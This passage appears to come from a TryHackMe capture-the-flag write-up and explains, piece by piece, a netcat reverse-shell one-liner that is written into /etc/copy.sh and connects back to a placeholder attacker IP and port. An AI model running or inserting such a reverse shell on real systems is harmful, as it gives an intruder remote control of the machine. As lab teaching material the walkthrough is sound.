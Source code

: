 
`echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc {MACHINE IP} {PORT NUMBER} >/tmp/f" > /etc/copy.sh`
+ `rm /tmp/f` to remove the file names "**/tmp/f**" if it exists
+ `mkfifo /thmp/f` to create a named pipe (FIFO) called "**/tmp/f**"
+ `cat /tmp/f | /bin/sh -i 2>&1 | nc {MACHINE IP} {PORT NUMBER} > /tmp/f` to establish a reverse shell connection to the specified IP address and port number
    + `cat /tmp/f` to read the content of the "**/tmp/f**" named pipe
    + `| /bin/sh -i 2>&1` to pipe the output of the previous command into a new ishell instance, which provides an interactive shell
    + `| nc {MACHINE IP} {PORT NUMBER}` to pipe the output of the shell into the netcat command, which connects to the specified machine at the specified IP address and port number
    + `>/tmp/f` to redirect the output of the netcat command back into the "**/tmp/f**" named pipe for further interaction
+ `/etc/copy.sh` to redirect the output of the **echo** command into the **copy.sh** file

# Contributions
This writeup was made by Jonmar Corpuz, founder of **KnowCybersecurity** (www.knowwwcybersecurity.com)


Socials:
* TryHackMe ID: https://tryhackme.com/p/mtlfriends
* LinkedIn: https://www.linkedin.com/in/jonmar-corpuz-12771a234/


